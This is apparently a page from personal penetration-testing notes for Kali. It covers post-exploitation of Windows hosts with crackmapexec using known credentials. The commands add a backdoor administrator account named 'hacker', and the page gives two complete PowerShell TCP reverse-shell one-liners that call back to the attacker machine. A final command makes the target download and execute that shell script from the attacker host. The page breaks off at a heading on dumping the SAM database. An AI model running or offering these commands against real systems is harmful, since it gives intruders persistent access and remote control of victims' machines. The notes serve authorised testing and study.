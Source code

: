 Add an admin user:
```bash - kali
crackmapexec winrm $TARGET -u $USER -p $PASSWORD -x 'net user /add hacker Pass123'
```

Verify:
```bash - kali
crackmapexec winrm $TARGET -u $USER -p $PASSWORD -x 'net user'
```

```bash - kali
crackmapexec winrm $TARGET -u $USER -p $PASSWORD -x 'net localgroup administrators hacker /add'
```

Verify:
```bash - kali
crackmapexec winrm $TARGET -u $USER -p $PASSWORD -x 'net localgroup administrators'
```

```bash - kali
crackmapexec smb $TARGET -u $USER -p $PASSWORD --local-auth
```

#### 16 SwisArmy Get PowerShell Reverse Shell
```bash - kali
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1
```

There are 2 options below, update the IP and port. 

```bash - kali
mousepad Shelly.ps1
```

OPTION1:
```bash - kali
$client = New-Object System.Net.Sockets.TCPClient('$KALI',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

OPTION2:
```bash - kali
$sm=(New-Object Net.Sockets.TCPClient('$KALI',443)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

[[Python#Server]]

[[rlwrap]]

```bash - kali
crackmapexec smb $TARGET -u $USER -p $PASSWORD -X 'IEX(New-Object Net.WebClient).DownloadString("http://$KALI/Shelly.ps1")'
```

#### 17 SwisArmy Dumping SAM
